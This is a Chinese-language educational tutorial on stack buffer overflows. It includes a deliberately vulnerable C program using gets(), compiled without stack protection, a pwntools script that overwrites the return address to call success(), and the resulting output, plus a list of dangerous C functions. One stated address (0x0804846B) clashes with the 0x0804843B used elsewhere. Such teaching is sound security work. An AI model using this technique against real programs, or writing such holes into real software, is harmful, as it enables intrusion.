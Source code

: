 ### 介绍

栈溢出指的是程序在向栈中某个变量中写入的数据字节数超过了这个变量本身所申请的字节数，这会导致栈中与其相邻的变量的值被改变。这种问题是一种特定的缓冲区溢出漏洞。而对于黑客来说，栈溢出漏洞轻则可以使得程序崩溃，重则可以使得攻击者控制程序执行流程。可以看出，发生栈溢出的基本前提是

- 程序必须向栈上写入数据。
- 写入的数据大小没有被良好地控制。

### 基本示例

最典型的栈溢出利用就是覆盖程序的返回地址为攻击者所控制的地址，**当然需要确保这个地址的代码可以执行**。下面，我们举一个简单的例子：

```C
#include <stdio.h>
#include <string.h>
void success() { puts("You Hava already controlled it."); }
void vulnerable() {
  char s[12];
  gets(s);
  puts(s);
  return;
}
int main(int argc, char **argv) {
  vulnerable();
  return 0;
}
```

这个程序的主要目的读取一个字符串，并将其输出。**我们希望可以控制程序执行success函数。**

我们利用如下命令对齐进行编译

```shell
➜  stack-example gcc -m32 -fno-stack-protector stack_example.c -o stack_example
stack_example.c: In function ‘vulnerable’:
stack_example.c:6:3: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
   gets(s);
   ^
/tmp/ccPU8rRA.o：在函数‘vulnerable’中：
stack_example.c:(.text+0x27): 警告： the `gets' function is dangerous and should not be used.
```

可以看出gets本身是一个危险函数。而它毫无疑问地可以导致栈溢出，因为其从不检查输入字符串的长度，而是以回车来判断是否输入结束。

> 历史上，**莫里斯蠕虫**第一种蠕虫病毒就利用了gets这个危险函数实现了栈溢出。

此外，-m32指的是生成32位程序，`-fno-stack-protector` 指的是不开启堆栈保护，即不生成canary，这是为了更加方便地介绍栈溢出的基本利用方式；而且该程序并没有开启ASLR保护。之后，我们利用IDA来反编译一下二进制程序并查看vulnerable函数 。可以看到

```C
int vulnerable()
{
  char s; // [sp+4h] [bp-14h]@1

  gets(&s);
  return puts(&s);
}
```

该字符串距离ebp的长度为0x14，那么相应的栈结构为

```text
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

并且，我们可以通过IDA获得success的地址，其地址为0x0804846B。

```asm
.text:0804843B success         proc near
.text:0804843B                 push    ebp
.text:0804843C                 mov     ebp, esp
.text:0804843E                 sub     esp, 8
.text:08048441                 sub     esp, 0Ch
.text:08048444                 push    offset s        ; "You Hava already controlled it."
.text:08048449                 call    _puts
.text:0804844E                 add     esp, 10h
.text:08048451                 nop
.text:08048452                 leave
.text:08048453                 retn
.text:08048453 success         endp
```

那么如果我们读取的字符串为

```
0x14*'a'+'bbbb'+success_addr
```

那么，由于gets会读到回车才算结束，所以我们可以直接读取所有的字符串，并且将saved ebp覆盖为bbbb，将retaddr覆盖为success_addr,即，此时的栈结构为

```text
                                           +-----------------+
                                           |    0x0804843B   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

但是需要注意的是，由于在计算机内存中，对应的每个值都是按照字节存储的。一般情况下都是采用小端存储，即0x0804843B的存储是如下结构

```text
\x3b\x84\x04\x08
```

但是，我们又不能直接在终端将这些字符给输入进去，在终端输入的时候\，x等也算一个单独的字符。。所以我们需要想办法将\x3b之类的作为一个字符输入进去。那么此时我们就需要使用一波pwntools了(关于如何安装，请自行github)，这里利用pwntools的代码如下：

```python
#coding=utf8
from pwn import *
# 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x0804843b
# 构造payload
payload = 'a' * 0x14 + 'bbbb' + p32(success_addr)
print p32(success_addr)
# 向程序发送字符串
sh.sendline(payload)
# 将代码交互转换为手工交互
sh.interactive()
```

执行一波代码，可以得到

```shell
➜  stack-example python exp.py
[+] Starting local process './stack_example': pid 61936
;\x84\x0
[*] Switching to interactive mode
aaaaaaaaaaaaaaaaaaaabbbb;\x84\x0
You Hava already controlled it.
[*] Got EOF while reading in interactive
$ 
[*] Process './stack_example' stopped with exit code -11 (SIGSEGV) (pid 61936)
[*] Got EOF while sending in interactive
```

可以看到我们确实已经执行success函数。

### 小总结

上面的示例其实也展示了栈溢出中比较重要的几个步骤:

#### 寻找危险函数与危险操作

通过寻找危险函数与危险操作，我们快速确定程序是否可能有栈溢出，以及有的话，栈溢出的位置在哪里。

常见的危险函数如下

- 输入
  - gets，直接读取一行，忽略'\x00'
  - scanf
  - vscanf
- 输出
  - sprintf
- 字符串
  - strcpy，字符串复制，遇到'\x00'停止
  - strcat，字符串拼接，遇到'\x00'停止
  - bcopy

#### 确定填充长度

这一部分主要是计算**我们所要操作的地址与我们所要覆盖的地址的距离**。常见的操作方法就是打开IDA，根据其给定的地址计算偏移，但是有时候，由于某些操作，IDA的计算并不准确，这时候就需要我们调试来获取了。一般来说，我们会有如下的覆盖需求

- **覆盖函数返回地址**，这时候就是直接看EBP即可。
- **覆盖栈上某个变量的内容**，这时候就需要更加精细的计算了。
- **覆盖bss段某个变量的内容**。
- 等等

**参考阅读**

[stack buffer overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow)

http://bobao.360.cn/learning/detail/3694.html

